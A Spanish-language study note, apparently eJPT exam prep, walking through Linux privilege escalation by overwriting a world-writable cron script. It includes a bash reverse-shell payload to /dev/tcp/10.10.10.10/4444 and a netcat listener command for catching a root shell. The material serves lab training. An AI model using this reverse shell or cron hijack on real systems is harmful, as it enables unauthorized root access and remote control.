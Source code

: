 
- Los trabajos cron son programas o scripts que los usuarios pueden programar para que se ejecuten en momentos o intervalos específicos. Los archivos de tabla cron (crontabs) almacenan la configuración de las tareas cron. El crontab de todo el sistema se encuentra en /etc/crontab.

- Vea el contenido del crontab de todo el sistema:

```
cat /etc/crontab
```

![[Pasted image 20240323000137.png]]
- Debería haber dos trabajos cron programados para ejecutarse cada minuto. Uno ejecuta overwrite.sh, el otro ejecuta /usr/local/bin/compress.sh.

- Localice la ruta completa del archivo overwrite.sh:

```
locate overwrite.sh
```

- Tenga en cuenta que el archivo se puede escribir en todo el mundo:

```
ls -l /usr/local/bin/overwrite.sh
```

- Reemplace el contenido del archivo overwrite.sh con lo siguiente después de cambiar la dirección IP a la de su Kali Box.

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

- Configure un detector de netcat en su caja Kali en el puerto 4444 y espere a que se ejecute el trabajo cron (no debería tardar más de un minuto).Un shell raíz debería conectarse nuevamente a su oyente netcat. Si no vuelve a verificar los permisos del archivo, ¿falta algo?

```
nc -nvlp 4444
```

Enlace:
[[Preparacion-Ejpt]]
[[Cron Jobs - Wildcards]]
[[Cron Jobs - PATH Environment Variable]]
